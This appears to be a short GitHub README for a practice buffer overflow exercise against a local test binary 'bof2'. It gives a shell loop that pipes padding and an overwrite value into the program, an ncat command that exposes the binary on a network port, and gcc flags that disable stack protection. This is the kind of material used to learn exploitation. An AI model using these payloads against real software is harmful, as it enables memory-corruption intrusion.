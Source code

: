 # Buffer Overflow Script

# target File : bof2
# Source : bof2.c

# Buffer overflow Script Methods
***TASK 1 : Shell Script*** <br>
[+] method : shell script <br>
: use this shell scripting  about buffer overflow <br>
: for i in {10..32}; do echo $i; python -c "print 'A'* $i + '\x78\x56\x34\x12'" | ./bof2 ; done <br>

***TASK 2 : pwntool (python2)*** <br>
[+] method : python pwntool <br>
: use this pwntool code(Example)  about buffer overflow <br>
: ncat -c {file} -kl ip port
: Reference File : attack_script_pwntool.py <br>


# Stack Smash option for test 
gcc -m32 -o {file} {file.c} -fno-stack-protector -z execstack -mpreferred-stack-boundary=2  <br>
